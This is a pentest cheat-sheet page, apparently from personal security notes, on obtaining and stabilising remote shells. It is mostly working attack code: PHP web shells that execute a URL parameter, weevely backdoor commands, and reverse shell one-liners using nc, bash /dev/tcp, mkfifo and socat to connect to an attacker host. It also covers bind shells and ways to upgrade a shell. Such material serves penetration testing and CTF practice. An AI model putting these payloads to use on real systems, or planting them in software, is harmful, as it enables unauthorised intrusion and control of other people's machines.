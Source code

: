 # Shell

<div class="row row-cols-md-2"><div>

On Kali, you can find preinstalled reverse/web shells inside ([GitLab](https://gitlab.com/kalilinux/packages/webshells))

```bash
$ ls /usr/share/webshells
```

> If your target is missing a binary, you may be able to download a precompiled version on [andrew-d GitHub](https://github.com/andrew-d/static-binaries/tree/master/binaries) (2.3k ⭐).
</div><div>

Using an attack vector (ex: file upload), we can use

* a **reverse shell**: we open a port on our machine, and the target connects to it. We can run commands on the target and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.
</div></div>

<hr class="sep-both">

## Tools to generate payloads

A payload is a code leading to a reverse/bind/web shell. You will pick one based on criteria like the platform...

<div class="row row-cols-md-2"><div>

🐍 [msfvenom](metasploit/msfvenom.md) is a famous **script** to generate payloads. 🐍

There is a **website** called [revshells](https://www.revshells.com/) that is also giving commands to listen, and some of msfvenom payloads.
</div><div>

There is a **script** called [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.3k ⭐) that is an automated and simplified interface to create payloads.

There is a **script** called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create payloads.
</div></div>

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**. The result is wrapped with `<pre>` so that the result is not formatted and displayed raw. I added ` 2>&1` to redirect errors.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php))

```php
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

which is the same as

```php
<?php echo "<pre>".shell_exec(/* code */)."</pre>"; ?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

* ➡️ [weevely3](https://github.com/epinna/weevely3) (2.7k ⭐)

```bash
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2 mt-3"><div>

* ➡️PHP pentest monkey

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
# ex: listen on HOST_IP port 4444
$ sed -i 's/127.0.0.1/HOST_IP/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```

* ➡️ Using netcat

```bash
# on the hacker machine
$ nc -lnvp port
```

```bash
# on the target
$ nc -c /bin/bash hacker_ip port
# or if -e is available
$ nc hacker_ip port -e /bin/bash
```
</div><div>

* ➡️ Each of the commands below is connecting to `IP:PORT`

```bash
# tcp socket
$ /bin/bash -i >& /dev/tcp/IP/PORT 0>&1
# named pipe
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP PORT >/tmp/f
```

* ➡️ Socat is creating a socket on each host and supports encryption.

```bash
# l = listen
$ socat TCP-L:port - # listen
$ socat TCP:hacker_ip:port EXEC:"bash -li" # connect from Linux
PS > socat TCP:hacker_ip:port EXEC:powershell.exe,pipes # connect from Windows, cmd.exe too
```

```bash
# more stable if target and host are running Linux
$ socat TCP-L:port FILE:`tty`,raw,echo=0
$ socat TCP:hacker_ip:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane 
```

```bash
# encryption
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
$ cat shell.key shell.crt > shell.pem
# use 
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...]
$ socat OPENSSL:hacker_ip:port,verify=0 [...]
```

</div></div>

<hr class="sep-both">

## Bind shell

We are exchanging sides with what we do in reverse shells. Now you execute the code to listen on the target, and connect from your machine.

<div class="row row-cols-md-2"><div>

* ➡️ Example with netcat

```bash
# on the target
$ nc -lnvp port -e /bin/bash
```
```bash
# on the hacker machine
$ nc target_ip port
```
</div><div>

</div></div>

<hr class="sep-both">

## Stabilize reverse/bind shells

<div class="row row-cols-md-2"><div>

Usually, when opening a reverse/bind shell, the shell is quite unstable

* 🚀 you can't use commands requiring user input, such as `sudo` asking for a password, or text-editors

* 🍃 You can't clear nor resize your terminal

* 👑 There is no auto-completion, arrows...

* ⛔ If you press CTRL+C, the shell dies, so you can't cancel a remote command

> Note that note every shell can be upgraded. For instance, I had issues with the PHP reverse TCP shell in which I couldn't enter `bash` nor call `python` to upgrade my shell. But, when I used pentestmonkey reverse shell, the same commands you can see here worked.

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ git clone https://github.com/brightio/penelope.git
$ cd penelope
$ python penelope.py 4444
xxx@yyy:path$ # CTRL+C / ...
# on Linux: OK
# on Windows: only a basic shell
```

> You can press F12 to open penelope session manager, and use utilities to upload/download files... Use `interact 1` to go back.

* ➡️Use a wrapper such as [pwncat-cs](https://github.com/calebstewart/pwncat) (1.8k ⭐)

```bash
$ pwncat-cs -lp 4444
```

* ➡️Use a wrapper such as [pwncat](https://github.com/cytopia/pwncat) (1.5k ⭐)

```bash
$ pwncat -lvv 4444
```
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
# test with echo $TERM in another terminal
# xxx@yyy:path$ export TERM=xterm-256color
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
# you may have to close your terminal
# if it does not respond
```

* ➡️ Manually resize your terminal

First, open another terminal and resize it to the size you want. Use `stty -a` and take note of the number of rows/columns.

Then, In the terminal to resize, use `stty rows n` and `stty cols n`

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```
</div></div>